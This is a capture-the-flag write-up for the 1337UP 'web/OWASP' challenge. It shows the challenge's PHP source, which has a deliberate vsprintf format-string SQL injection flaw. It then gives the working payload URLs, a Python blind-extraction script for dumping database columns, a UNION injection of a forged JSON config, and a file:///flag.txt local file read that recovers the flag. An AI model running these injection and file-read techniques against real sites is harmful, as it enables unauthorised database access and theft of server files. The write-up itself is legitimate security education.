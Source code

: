 ```yaml
---
title: "1337UP web/OWASP"
publishDate: "20 Nov 2023"
description: "Author: cpp.dog"
tags: ["web", "1337up"]
---
```


#### Description

Everyone knows the OWASP top 10 are vulnerable, I guess this might be too 💀

Author: Ivars Vids

#### Code inspection

Sourceless.

P.S.
After CTF has ended, some participants shared the dirbusted source file.
`https://owasp.ctf.intigriti.io/search.php.save`

Please note that we didn't know about this file, because dirbusting is generally prohibited in most CTFs, unless it is explicitly stated in the challenge description. 

So we were desperately guessing every possible shit out there.
```php
<?php
require_once('db.php');
$flag = file_get_contents('/flag.txt');
@include('header.php');

//build sql query
$sql = 'select * from owasp';
$sql_where = '';
foreach ($_REQUEST as $field => $value){
  if ($sql_where) $sql_where = " AND $sql_where";
  $sql_where = "position(%s in $field) $sql_where";
  try {
    $sql_where = @vsprintf($sql_where, Array("'". sqlesc($value) . "'"));
  } catch (ValueError | TypeError $e) {
    $sql_where = '';
  }
  if (preg_match('/[^a-z0-9\.\-_]/i', $field)) die ('Hacking attempt!');
}
$sql .= ($sql_where)?" where $sql_where":'';

foreach(sqlquery($sql) as $row){
  @include('row.php');
  $config = json_decode($row['config'], true);
}

if (isset($config['flag']) && $config['flag']){
  $url = $config['url'];
  // no printer manufacturer domains
  if (preg_match('/canon|epson|brother|hp|minolta|sharp|dell|oki|samsung|xerox|lexmark/i', $url)) die('Looks like a printer!');
//  $url = 'https://www.youtube.com/watch?v=2U3Faa3DejQ';
  if (filter_var($url, FILTER_VALIDATE_URL)) {
    $http_resp = file_get_contents($url);
    var_dump($http_resp);
    if ($flag === $http_resp){
      die('Yes! You got the right flag!');
    }
    die('Wrong flag');
  }
  else {
    die('URL does not start with HTTP or HTTPS protocol!');
  }
}

@include('footer.php');
```

#### Fuzzing

We didn't see much of the possible attack vectors on the site, the only interesting thing at quick glance is search field. Which just GETs the `search.php`.

`https://owasp.ctf.intigriti.io/search.php?title=1`

SQL injection is definitely the first thing to try here, so we tried something like this:

`https://owasp.ctf.intigriti.io/search.php?title='"/`

No errors were produced with this input. We thought "what if we add another random query parameter?" and, to our surprise, it worked just fine and produced a mysql exception.

`https://owasp.ctf.intigriti.io/search.php?title=%27%22%2F&abacaba=123`


```py
Fatal error: Uncaught mysqli_sql_exception: Unknown column 'abacaba' in 'where clause' in /var/www/html/db.php:11 
Stack trace: 
#0 /var/www/html/db.php(11): mysqli->query('select * from o...') #1 /var/www/html/search.php(21): sqlquery('select * from o...') #2 {main} thrown in /var/www/html/db.php on line 11
```

After several attempts, we discovered that query string parameters must match the following regex pattern: `/[a-z0-9_-]/i`. Dots and spaces are replaced with underscores `_`. However, the `-` char is permitted, we immediately tried to exploit it to comment out the rest of the query, which may reveal a portion of it and help us understand what to do next.

`https://owasp.ctf.intigriti.io/search.php?b=1&1=321&--=123`

```py
Fatal error: Uncaught mysqli_sql_exception: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ') AND position('321' in 1) AND position('1' in b)' at line 1 in /var/www/html/db.php:11 
Stack trace: 
#0 /var/www/html/db.php(11): mysqli->query('select * from o...') #1 /var/www/html/search.php(21): sqlquery('select * from o...') #2 {main} thrown in /var/www/html/db.php on line 11
```

So it adds `AND position('value' in key)` for every query parameter in reversed order. Interesting. Looks like we can try format string injection.

`https://owasp.ctf.intigriti.io/search.php?a=%1$s)  AND 0;--&id=1`

```py
Fatal error: Uncaught mysqli_sql_exception: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '1') AND 0;--' in a)' at line 1 in /var/www/html/db.php:11 
Stack trace: 
#0 /var/www/html/db.php(11): mysqli->query('select * from o...') #1 /var/www/html/search.php(21): sqlquery('select * from o...') #2 {main} thrown in /var/www/html/db.php on line 11
```

We were right about format string injection! It seems we need to prepend the format string with an opening parenthesis and prefix the second parameter with `in title)` in order to get something interesting for us.

`https://owasp.ctf.intigriti.io/search.php?id=(%1$s&title=in title) OR 0 AND POSITION(`

The payload above returns empty article set, now we can extract everything.
Upon iterating over the information_schema.tables, we found an additional table called `flag`, with column `flag`. Let's dump it!

```py
from cr3.web.brute import trie_brute
from cr3.regex.solver import solve

def callback(flag, c, _):
  return None, f"https://owasp.ctf.intigriti.io/search.php?id=(%1$s&title=in title) OR (SELECT COUNT(flag) FROM flag where HEX(SUBSTR(flag,{len(flag) + 1},1)) = HEX({hex(ord(c))})) > 0 AND POSITION("

flag = trie_brute(success="<h3>", pre_request_callback=callback)
```

`https://www.youtube.com/watch?v=dQw4w9WgXcQ`

And here we go, rickroll...

Well, we also found an additional column in article table named `config`. Let's dump it too.

```py
from cr3.web.brute import trie_brute
from cr3.regex.solver import solve

def callback(flag, c, _):
  return None, f"https://owasp.ctf.intigriti.io/search.php?id=(%1$s&title=in title) OR (SELECT GROUP_CONCAT(config) FROM owasp where HEX(SUBSTR(config,{len(flag) + 1},1)) = HEX({hex(ord(c))})) > 0 AND POSITION("

flag = trie_brute(success="<h3>", pre_request_callback=callback)
```

```json
{}, {"__proto__":{"flag": "https://www.youtube.com/watch?v=Ct6BUPvE2sM"}}, {}, {"flag":false}, {}, [], 1337, "1337UP", null
```

It's JSON and there's new youtube link with another rickroll. 
`https://www.youtube.com/watch?v=Ct6BUPvE2sM`

But what happens if we give it our own config, with something like this `{"flag":true}`?

`https://owasp.ctf.intigriti.io/search.php?id=(%1$s&title=in title) UNION SELECT 1,2,3, 0x7B22666C6167223A747275657D;-- AND POSITION(`

```py
Warning: Undefined array key "url" in /var/www/html/search.php on line 27

Deprecated: preg_match(): Passing null to parameter 
#2 ($subject) of type string is deprecated in /var/www/html/search.php on line 29
URL does not start with HTTP or HTTPS protocol!
```

Let's try passing this value: `{"flag":true,"url":"link-to-webhooks"}`.
`https://owasp.ctf.intigriti.io/search.php?id=(%1$s&title=in title) UNION SELECT 1,2,3, 0x7B22666C6167223A747275652C2275726C223A2268747470733A2F2F776562686F6F6B2E736974652F32623037613133312D646534362D343135332D626561662D343036633265353831396132227D;-- AND POSITION(`

```py
string(140) 
"This URL has no default content configured. View in Webhook.site." 
Wrong flag
```

Since they check the domain, we tried LFI.
`https://owasp.ctf.intigriti.io/search.php?id=(%1$s&title=in title) UNION SELECT 1,2,3, 0x7B22666C6167223A747275652C2275726C223A2266696C653A2F2F2F666C61672E747874227D;-- AND POSITION(`

```py
string(40) 
"INTIGRITI{php_n4n0_5ql1_lf1_53cr37_fl46}" 
Yes! You got the right flag!
```

#### Flag
`INTIGRITI{php_n4n0_5ql1_lf1_53cr37_fl46}`
